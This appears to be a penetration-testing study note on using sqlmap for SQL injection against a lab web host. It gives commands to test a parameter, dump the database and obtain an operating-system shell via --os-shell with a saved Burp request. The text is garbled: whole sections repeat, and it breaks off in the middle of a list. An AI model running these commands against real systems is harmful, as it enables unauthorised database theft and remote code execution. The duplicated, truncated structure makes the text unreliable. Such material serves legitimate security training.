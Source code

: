 ## Sqlmap

```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

To use burp request as parameter pass in `-r`

Pass in parameter with `-p`

```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```

1 is a dummy value

To dump the **database**:

```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

### To gain shell access:

time-based blind SQLi are not ideal for a shell so we will try an UNION-based SQLi example:

* First intercept the POST request and save it as a local file using burp.
* Now invoke sqlmap with `-r` parameter to use the request as a parameter:

```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

## Automating SQLi

To use burp request as parameter pass in `-r`

We can use sqlmap to automate this process.

Pass in parameter with `-p`

```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```

1 is a dummy value

To dump the **database**:

```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

### To gain shell access:

time-based blind SQLi are not ideal for a shell so we will try an UNION-based SQLi example:

* First intercept the POST request and save it as a local file using burp.
* Now invoke sqlmap with `-r` parameter to use the request as a parameter:
